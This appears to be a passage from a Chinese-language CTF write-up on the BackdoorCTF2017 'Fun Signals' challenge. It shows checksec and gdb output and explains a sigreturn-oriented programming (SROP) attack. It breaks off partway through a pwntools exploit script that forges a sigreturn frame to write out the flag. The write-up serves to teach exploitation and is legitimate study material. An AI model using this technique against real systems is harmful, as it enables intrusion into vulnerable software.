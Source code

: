 总共有三种，结构和初始化的值会 有所不同：
- i386 on i386：32 位系统上运行 32 位程序
- i386 on amd64：64 位系统上运行 32 位程序
- amd64 on amd64：64 为系统上运行 64 位程序


## BackdoorCTF2017 Fun Signals
```
$ file funsignals_player_bin
funsignals_player_bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```
这是一个 64 位静态链接的 srop，可以说是什么都没开。。。
```
$ checksec -f funsignals_player_bin
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FORTIFY  Fortified Fortifiable  FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No       0               0       funsignals_player_bin
```
```
gdb-peda$ disassemble _start
Dump of assembler code for function _start:
   0x0000000010000000 <+0>:     xor    eax,eax
   0x0000000010000002 <+2>:     xor    edi,edi
   0x0000000010000004 <+4>:     xor    edx,edx
   0x0000000010000006 <+6>:     mov    dh,0x4
   0x0000000010000008 <+8>:     mov    rsi,rsp
   0x000000001000000b <+11>:    syscall
   0x000000001000000d <+13>:    xor    edi,edi
   0x000000001000000f <+15>:    push   0xf
   0x0000000010000011 <+17>:    pop    rax
   0x0000000010000012 <+18>:    syscall
   0x0000000010000014 <+20>:    int3   
End of assembler dump.
gdb-peda$ disassemble syscall
Dump of assembler code for function syscall:
   0x0000000010000015 <+0>:     syscall
   0x0000000010000017 <+2>:     xor    rdi,rdi
   0x000000001000001a <+5>:     mov    rax,0x3c
   0x0000000010000021 <+12>:    syscall
End of assembler dump.
gdb-peda$ x/s flag
0x10000023 <flag>:      "fake_flag_here_as_original_is_at_server"
```
而且 flag 就在二进制文件里，只不过是在服务器上的那个里面，过程是完全一样的。

首先可以看到 `_start` 函数里有两个 syscall。第一个是 `read(0, $rip, 0x400)`（调用号`0x0`），它从标准输入读取 `0x400` 个字节到 `rip` 指向的地址处，也就是栈上。第二个是 `sigreturn()`（调用号`0xf`），它将从栈上读取 sigreturn frame。所以我们就可以伪造一个 frame。

那么怎样读取 flag 呢，需要一个 `write(1, &flag, 50)`，调用号为 `0x1`，而函数 `syscall` 正好为我们提供了 `syscall` 指令，构造 payload 如下：
```python
from pwn import *

elf = ELF('./funsignals_player_bin')
io = process('./funsignals_player_bin')
# io = remote('hack.bckdr.in', 9034)

context.clear()
context.arch = "amd64"

# Creating a custom frame
frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
```